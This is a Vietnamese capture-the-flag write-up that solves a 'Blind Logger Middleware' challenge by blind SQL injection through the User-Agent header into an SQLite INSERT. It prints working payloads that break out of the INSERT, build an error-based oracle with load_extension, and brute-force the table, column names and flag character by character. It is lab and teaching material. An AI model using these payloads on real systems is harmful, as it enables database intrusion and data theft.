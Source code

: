 ### Link POC :  https://github.com/l3mnt2010/pswg-updating-/blob/main/ckHH/Blind%20Logger%20Middleware/POC.py

- Em test mãi trên burp mà kết quả lúc hiện Logged lúc không mà cú pháp em chắc chắn đúng rùi nên em chuyển qua viết POC đơn giản với python ạ

# Đề bài đọc kĩ thì em thấy có một đoạn INSERT dữ liệu cho table logger như sau:
                  INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('{ip_address}', '{user_agent}', 
                  '{referer}', '{url}', '{cookie}', '{created_at}')

Có vẻ như máy chủ sẽ lấy giá trị ip address,user_agent,referer,url,cookie,created_at của mình để insert log vào bảng này và nếu thành công sẽ trả ra Logged còn nếu sai sẽ Trả ra Error
+ Đầu tiên em nhận thấy các giá trị như user_agent,referer,cookie là dễ thay đổi nhất nên em sẽ chọn điểm inject đó là user_agent vì đoạn này có vẻ như ít check nhất em nghĩ là referer và cookie cũng được nhưng mà em chưa thử ạ:3

+ Đầu tiên em lợi dụng việc SQLite có cú pháp chèn nhiều bản ghi và dùng payload

                                        a',null,null,null,null), (null,'aaa
Lúc này câu lệnh sẽ trở thành
                  INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('ip_address', 'a',             
                   null,null,null,null),(null,'aaa','referer', '{url}', '{cookie}', '{created_at}')
Và câu lệnh của em hợp lệ nên em sẽ nhận về Logged
![Alt text](image.png)

Tiếp sau đó em sử dụng payload 
                                        a',null,null,CASE WHEN 1=1 THEN NULL ELSE load_extension(1) END), (null,'aaa
- Payload này em lấy trên payload all thing theo như em tìm hiểu thì hàm load_extension(1) để raise error khi gặp lỗi ạ
- Em nhận được kết quả
![Alt text](image-1.png)
- còn nếu case 1=0 thì em sẽ nhận được Error
![Alt text](image-2.png)

sau đó em dùng payload:
              headers = {
             'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(tbl_name,1,{i}) FROM sqlite_master WHERE type='table' AND 
             tbl_name NOT LIKE 'sqlite_%' AND tbl_name != 'logger') = '{payload + char}' THEN NULL ELSE load_extension(1) END), 
              (null,'aaa"
               } 
để xác định tên của Table, em nhận được kết quả bằng cách brute force
![Alt text](image-3.png)
tên table là flag ạ
- Ban đầu em dùng payload sai tìm ra được 1 tên cột là CREATE em làm mãi không ra @@
- Sau đó em tìm ra rên payload all thing em có hàm PRAGMA_TABLE_INFO('table')
Sẽ trả ra một cột name là tên cột của table nên em dùng payload:
                                     headers = {
                                     'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(name,1,{i}) FROM 
                                    PRAGMA_TABLE_INFO('flag') LIMIT 2,1) = '{payload + 
                                    char}' THEN NULL ELSE load_extension(1) END), (null,'aaa"
                                       }


- Ban đầu nếu để payload là LIMIT 0,1 thì em nhận được tên là id
![Alt text](image-4.png)
<em lười đổi đoạn tên cột nên vẫn để print table name ạ:v>

- Sau đó em để payload là LIMIT 1,1 thì em nhận được tên cột là secret
![Alt text](image-5.png)
Đoạn này em nghĩ đây chắc chắn chứa FLAG rồi nhưng mà em thêm LIMIT 2,1 nữa nhưng không có gì  @@

- Bây giờ thì em bờ rút FLAG với payload:

                     headers = {
                        'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(secret,1,{i}) FROM flag LIMIT 1) = '{payload + 
                           char}' THEN NULL ELSE load_extension(1) END), (null,'aaa"
                     }

- Đợi gần 1 phút thì em được kết quả:
![Alt text](image-6.png)
FLAG : CHH{blInD_sqLi_1N_UPDATE}
